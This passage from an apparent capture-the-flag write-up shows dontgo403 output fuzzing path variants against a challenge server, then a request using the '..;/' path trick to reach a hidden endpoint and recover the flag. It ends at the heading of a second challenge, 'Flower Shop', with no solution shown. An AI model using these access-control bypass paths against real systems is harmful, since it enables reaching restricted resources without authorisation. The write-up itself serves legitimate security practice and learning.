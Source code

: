 ```bash

━━━━━━━━━━━━━ HEADERS ━━━━━━━━━━━━━━━━━━━━━

━━━━━━━━━━━━━ CUSTOM PATHS ━━━━━━━━━━━━━━━━
200       178 bytes http://chal.pctf.competitivecyber.club:9090/secretsforyou/..;/
200       178 bytes http://chal.pctf.competitivecyber.club:9090/secretsforyou/..%3B/
2023/09/09 23:11:29 parse "http://chal.pctf.competitivecyber.club:9090/%secretsforyou": invalid URL escape "%se"
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/#secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/#?secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090///?anythingsecretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/??secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/?secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/???secretsforyou

━━━━━━━━━━━━━ CASE SWITCHING ━━━━━━━━━━━━━━
```

Check the ones with length of  `178`

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ http "http://chal.pctf.competitivecyber.club:9090/secretsforyou/..;/"
...
l00s3_and_
```

#### Final Flag

> PCTF{Hang_l00s3_and_Adm1t_ev3rYtH1nG}


## Flower Shop


### Info

Flowers!

_Flag format: CACI{}_

_Author: CACI | @nihilistpenguin_

[http://chal.pctf.competitivecyber.club:5000](http://chal.pctf.competitivecyber.club:5000/){:target='_blank'}

### Solve
